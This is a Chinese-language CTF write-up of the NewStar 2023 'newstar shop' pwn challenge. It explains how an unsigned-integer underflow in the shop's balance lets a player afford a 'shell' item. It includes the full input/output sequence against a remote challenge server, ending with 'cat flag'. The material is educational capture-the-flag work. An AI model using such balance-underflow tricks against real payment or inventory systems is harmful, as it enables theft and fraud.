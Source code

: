 ```yaml
---
title: newstar2023 week1 - newstar shop
date: 2023/9/26 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过逆向分析`newstar_shop`程序，利用下溢漏洞以负钱购买商品并获取flag。
---
```


## 文件分析

下载`newstar_shop`, 保护全开  
ghidra分析为64位程序

## 解题思路

根据逆向结果，持有的钱会先转换成uint，那么只要使持有的钱下溢，
就可以购买天价终端了

注意：don't choose只能用一次

## EXPLOIT

nc node4.buuoj.cn 28760

以下为输入输出，输入会用**表示

```
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **1**
 =============================
 ===Welcome to newstar shop===
 =============================
 1.newstar's gift          20$
 2.pwn write up            40$
 3.shell                 9999$
 
 
 All things are only available for one day!
 What do you want to buy?
 
 
 **2**
 You buy a pwn write up
 That is free after the match,haha
 
 
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **1**
 =============================
 ===Welcome to newstar shop===
 =============================
 1.newstar's gift          20$
 2.pwn write up            40$
 3.shell                 9999$
 
 
 All things are only available for one day!
 What do you want to buy?
 
 
 **2**
 You buy a pwn write up
 That is free after the match,haha
 
 
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **3**
 You shouldn't choose this
 Please remember, the shop owner doesn't like his secret to be found
 To punish your choice, you will lose 50$ and you will never be able to choose it!
 
 
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **1**
 =============================
 ===Welcome to newstar shop===
 =============================
 1.newstar's gift          20$
 2.pwn write up            40$
 3.shell                 9999$
 
 
 All things are only available for one day!
 What do you want to buy?
 
 
 **3**
 How do you buy it?
 
 
 **cat flag**
 flag{你猜}
```

{% note default fa-dollar-sign %}
money变化：100 - 40 - 40 - 50 -> -10 -> 0xFFFFFFF5
{% endnote %}

Done.
